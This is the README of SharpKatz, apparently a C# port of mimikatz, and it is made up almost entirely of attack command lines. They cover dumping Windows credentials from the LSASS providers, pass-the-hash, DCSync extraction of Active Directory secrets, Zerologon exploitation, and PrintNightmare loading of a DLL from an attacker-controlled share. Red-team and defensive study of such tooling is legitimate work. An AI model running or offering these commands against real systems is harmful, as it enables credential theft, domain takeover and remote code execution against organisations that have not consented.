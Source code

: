 # SharpKatz
Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync commands

## Usage

### Ekeys

```SharpKatz.exe --Command ekeys```<br>
 list Kerberos encryption keys <br>
 <br>

### Msv

```SharpKatz.exe --Command msv``` <br>
Retrive user credentials from Msv provider <br>
<br>

### Kerberos

```SharpKatz.exe --Command kerberos```<br>
Retrive user credentials from Kerberos provider <br>
<br>

### Tspkg

```SharpKatz.exe --Command tspkg```<br>
Retrive user credentials from Tspkg provider <br>
<br>

### Credman

```SharpKatz.exe --Command credman```<br>
Retrive user credentials from Credman provider <br>
<br>

### WDigest

```SharpKatz.exe --Command wdigest```<br>
Retrive user credentials from WDigest provider <br>
<br>

### Logonpasswords

```SharpKatz.exe --Command logonpasswords```<br>
Retrive user credentials from all providers <br>
<br>

### Pth

```SharpKatz.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password<br>
<br>
```SharpKatz.exe --Command pth --User username --Domain userdomain --Rc4 rc4key```<br>
Perform pth to create a process under userdomain\username credential user's rc4 key<br>
<br>
```SharpKatz.exe --Command pth --Luid luid --NtlmHash ntlmhash```<br>
Replace ntlm hash for an existing logonsession <br>
<br>
```SharpKatz.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash --aes256 aes256```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password and aes256 key <br>
<br>

### DCSync

```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc```<br>
Dump user credential by username <br>
<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc```<br>
Dump user credential by GUID <br>
<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc```<br>
Export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>
```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Dump user credential by username using alternative credentials<br>
<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Dump user credential by GUID using alternative credentials<br>
<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Export the entire dataset from AD to a file created in the current user's temp forder using alternative credentials<br>
<br>

### Zerologon

No reference to logoncli.dll, using the direct rpc call works even from a [non-domain joined workstation](https://twitter.com/gentilkiwi/status/1306178689630076929)

```SharpKatz.exe --Command zerologon --Mode check --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon check <br>
<br>
```SharpKatz.exe --Command zerologon --Mode exploit --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon attack <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --User krbtgt --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and dump user credential by username <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --Guid guid --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and dump user credential by GUID <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>
Note: Do not use zerologon in a production environment or at least plan for recovery actions which are detailed [here](https://github.com/dirkjanm/CVE-2020-1472) 

### PrintNightmare CVE-2021-1675 - CVE-2021-34527

```SharpKatz.exe --Command printnightmare --DomainController dc --Library \\\\mycontrolled\\share\\fun.dll```
Perform PrintNightmare attack <br>
<br>
```SharpKatz.exe --Command printnightmare --DomainController dc --Library \\\\mycontrolled\\share\\fun.dll --AuthUser user --AuthPassword password --AuthDomain dom```
Perform PrintNightmare attack with provided credentials<br>
<br>

## Credits

This project depends entirely on the work of [Benjamin Delpy](https://twitter.com/gentilkiwi) and [Vincent Le Toux](https://twitter.com/mysmartlogon) on [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [MakeMeEnterpriseAdmin](https://raw.githubusercontent.com/vletoux/MakeMeEnterpriseAdmin/master/MakeMeEnterpriseAdmin.ps1) projects.<br>
The analysis of the code was conducted following the example from [this blog post](https://blog.xpnsec.com/exploring-mimikatz-part-1/) by [xpn](https://twitter.com/_xpn_).<br>
<br>
